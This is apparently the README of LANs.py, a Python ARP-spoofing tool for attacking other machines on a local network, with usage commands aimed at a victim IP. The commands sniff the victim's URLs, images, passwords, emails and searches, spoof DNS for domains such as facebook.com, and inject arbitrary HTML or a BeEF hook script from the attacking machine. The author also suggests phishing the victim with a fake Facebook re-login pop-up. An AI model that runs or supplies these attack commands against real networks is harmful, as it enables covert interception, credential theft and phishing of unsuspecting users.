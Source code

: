 LANs.py
========

Multithreaded asynchronous packet parsing/injecting arp spoofer.

Individually arpspoofs the target box, router and DNS server if necessary. Does not poison anyone else on the network. Displays all most the interesting bits of their traffic and can inject custom html into pages they visit. Cleans up after itself.


Prereqs: Linux, scapy, python nfqueue-bindings, aircrack-ng, python twisted, BeEF (optional), wireless card capable of injection

Tested on Kali 1.0. In the following examples 192.168.0.5 will be the attacking machine and 192.168.0.10 will be the victim.



Simplest usage:

```
python LANs.py
```

Because there's no -ip option this will arp scan the network, compare it to a live running promiscuous capture, and tell you the clients on the network that are sending the most packets, give Windows netbios names, then you can Ctrl-C and pick your target which it will then ARP spoof. Simple ARP spoofing. 

Passive harvesting usage:

```
python LANs.py -u -d -p -ip 192.168.0.10
```

-u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting

-d: open an xterm with driftnet to see all images they view

-p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received

-ip: target this IP address 

Easy to remember and will probably be the most common usage of the script: options u, d, p, like udp/tcp.


HTML injection:

```
python LANs.py -b http://192.168.0.5:3000/hook.js
```

Inject a BeEF hook URL (http://beefproject.com/, tutorial: http://resources.infosecinstitute.com/beef-part-1/) into pages the victim visits. Injecting HTML undetected is a dicey game, if a minor thing goes wrong then the user won't be able to open the page they're trying to view and they'll know something's up. This script is designed to forward packets if anything fails so during usage you may see lots of "[!] Injected packet for www.domain.com" but only see one or two domains on the BEeF
panel that the browser is hooked on. This is OK. If they don't get hooked on the first page just give it a few minutes. The goal is to be unintrusive. My favorite BEeF tools are in Commands > Social Engineering. Do things like create an official looking Facebook pop up saying the user's authentication expired and to re-enter their credentials.   

```
python LANs.py -c '<title>Owned.</title>'
```

Inject arbitrary HTML into pages the victim visits. First tries to inject it after the first <head> and failing that injects prior to the first </head>. This example will change the page title to 'Owned.'


Read from pcap:

```
python LANs.py -pcap libpcapfilename -ip 192.168.0.10
```

To read from a pcap file you must include the target's IP address with the -ip option


Aggressive usage:
```
python LANs.py -v -d -p -n -na -set -dns facebook.com -c '<title>Owned.</title>' -b http://192.168.0.5:3000/hook.js -ip 192.168.0.10
```

All options:

```
python LANs.py -h
```

-b BEEF_HOOK_URL: copy the BeEF hook URL to inject it into every page the victim visits, eg: -b http://192.168.1.10:3000/hook.js

-c 'HTML CODE': inject arbitrary html code into pages the victim vists; include the quotes when selecting HTML to inject

-d: open an xterm with driftnet to see all images they view

-dns DOMAIN: spoof the DNS of DOMAIN. e.g. -dns facebook.com will DNS spoof every DNS request to facebook.com or subdomain.facebook.com

-u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting

-i INTERFACE: specify interface; default is first interface in `ip route`, eg: -i wlan0

-ip: target this IP address 

-n: performs a quick nmap scan of the target

-na: performs an aggressive nmap scan in the background and outputs to [victim IP address].nmap.txt

-p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received

-pcap PCAP_FILE: parse through all the packets in a pcap file; requires the -ip [target's IP address] argument

-v: show verbose URLs which do not truncate at 150 characters like -u


Cleans the following on Ctrl-C:

--Turn off IP forwarding

--Flush iptables firewall

--Individually restore each machine's ARP table



To do:

-Add ability to read from pcap file



Technical details:

This script uses python an nfqueue-bindings queue wrapped in a Twisted IReadDescriptor to feed packets to callback functions. nfqueue-bindings is used to drop and forward certain packets. Python's scapy library does the work to parse and inject packets.
